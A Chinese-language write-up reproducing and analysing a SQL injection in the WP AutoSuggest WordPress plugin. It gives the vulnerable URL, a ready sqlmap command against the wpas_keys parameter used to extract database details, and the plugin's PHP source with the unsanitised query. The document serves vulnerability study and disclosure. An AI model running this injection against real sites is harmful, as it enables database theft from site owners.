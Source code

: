 WordPress Plugin - AutoSuggest sql注入
======================================

一、漏洞简介
------------

WP
AutoSuggest这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过AJAX请求在网页中显示一些建议。访问者可以通过按Enter继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

二、漏洞影响
------------

三、复现过程
------------

首先我们得进入exploit-db网站上下载这个存在漏洞的版本的插件原始码和本地构建WordPress网站（本地构建WordPress这里就不说了）。下载源码，如下图所示

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId24.png)

下载完成之后，把wp-autosuggest目录直接拖到Wordpress目录的\\wp-content\\plugins\\下。

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId25.png)

接着，登录后台，启用这款插件，如下图所示：

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId26.png)

启用后，退出后台，如下图所示：

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId27.png)

然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：

    http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1

访问后，网页内容如下图所示：

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId28.png)

根据exploit-db网站上给出的漏洞详情，我们也知道了wpas\_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：

    sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId29.png)

后来笔者换了一个php-5.4.45+Apache的环境，就解决了。

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId30.png)

通过SQLMAP，成功获取到服务器的一些信息，如下图所示：

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId31.png)

下图也成功跑出了当前数据库的名称。

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId32.png)

### 漏洞分析

分析WordPress插件的话还是挺容易的。文件和代码也不是很多，用Notepad++就够用啦。进入插件根目录下面就看到了autosuggest\_functions.php、autosuggest.php这两个php文件。

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId34.png)

下面是autosuggest.php文件所有代码：

    <?php
    include 'autosuggest_functions.php';

    $wpas_action = '';
    $wpas_keys = '';
    if(isset($_GET['wpas_action'])) {
        $wpas_action = $_GET['wpas_action'];
    }
    if (isset($_GET['wpas_keys'])) {
        $wpas_keys = $_GET['wpas_keys'];
    }


    if ($wpas_action == 'query') {

        require_once ('../../../wp-config.php');

        header('Content-Type: text/xml');
        echo '<results>';

        global $wpdb;

        $wpas_keys = str_replace(' ','%',$wpas_keys);
        $pageposts = $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
        foreach ($pageposts as $post) {
            setup_postdata($post);
            echo "<rs id=\"";
            the_permalink();
            echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\">";
            the_title();
            echo "</rs>";
        }
        echo '</results>';
        die();
    }

    define('AUTOSUGGEST_DIR', get_option('siteurl') . '/' . PLUGINDIR.'/'.dirname(plugin_basename(__FILE__)));


    function add_autosuggest_css() {
        wp_register_style('autosuggestCSS', AUTOSUGGEST_DIR . '/css/wp_autosuggest.css', null, '1', 'screen');
        wp_enqueue_style('autosuggestCSS');
    }

    function add_autosuggest_js() {
        wp_register_script('autosuggestJS', AUTOSUGGEST_DIR . '/js/wp.autosuggest.js', null, '1');
        wp_enqueue_script('autosuggestJS');
    }

    function add_autosuggest_footer_code() {
    ?>
    <script type="text/javascript">
    var autosuggest_options = {
        script: "<?php echo AUTOSUGGEST_DIR; ?>/autosuggest.php?wpas_action=query&",
        varname: "wpas_keys",
        shownoresults:true,
        noresults:"<?php echo __('No results found.'); ?>",
        timeout:15000,
        callback:autosuggestSelected,
        maxresults: <?php echo get_wpas_option('wpas_maxresults','10'); ?>
    };
    var as = new AutoSuggest('<?php echo get_wpas_option('wpas_input_id','s'); ?>', autosuggest_options);
    function autosuggestSelected(entry) {
        document.location = entry['id'];
    }
    </script>
    <?php
    }

    function add_autosuggest_settings() {
    ?>
    <div class="wrap">

        <?php

            $smsg = "";
            if (isset($_POST['submitoptions'])) {
                if (isset($_POST['wpas_input_id'])) {
                    update_option('wpas_input_id',$_POST['wpas_input_id']);
                }
                if (isset($_POST['wpas_maxresults'])) {
                    update_option('wpas_maxresults',$_POST['wpas_maxresults']);
                }
                ?>

                <div id="message" class="updated fade"><p>WP AutoSuggest settings updated.</p></div>

        <?php } ?>

        <h2>WP AutoSuggest Settings</h2>

        <form action="" method="post">
        <table class="form-table">
            <tr valign="top">
            <th scope="row">Search Input ID</th>
            <td>
            <input type="text" value="<?php echo get_wpas_option('wpas_input_id','s'); ?>" id="wpas_input_id" name="wpas_input_id"/><br/>
            Default value is 's' which is used with the default WordPress theme. 
            </td>
            </tr>
            <tr valign="top">
            <th scope="row">Max Results</th>
            <td>
            <input type="text" value="<?php echo get_wpas_option('wpas_maxresults','10'); ?>" id="wpas_maxresults" name="wpas_maxresults"/><br/>
            Maximum number of suggested results (10 by default).
            </td>
            </tr>
        </table>
        <p class="submit"><input type="submit" name="submitoptions" value="Update Settings" /></p>
        </form>
        </div>
    <?php
    }

    function add_autosuggest_menu_settings() {
        if (function_exists('add_options_page')) {
             add_options_page(
                 "WP AutoSuggest"
                 , "WP AutoSuggest"
                 , 7
                 , basename(__FILE__)
                 , 'add_autosuggest_settings');
        }
    }

    add_action('wp_print_scripts', 'add_autosuggest_js');
    add_action('wp_print_styles', 'add_autosuggest_css');
    add_action('wp_footer', 'add_autosuggest_footer_code');
    add_action('admin_menu', 'add_autosuggest_menu_settings');


    ?>

相信大家没看几行就看出了问题的所在，变量wpas\_keys是直接获取GET中的wpas\_keys。一点都没过滤，并且在下面代码中，变量wpas\_keys也带入数据库中查询了（wpdb是wordpress操作数据库方法），于是SQL注入就产生了。

![](./.resource/WordPressPlugin-AutoSuggestsql注入/media/rId35.png)

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45977>
>
> <https://www.freebuf.com/vuls/191869.html>
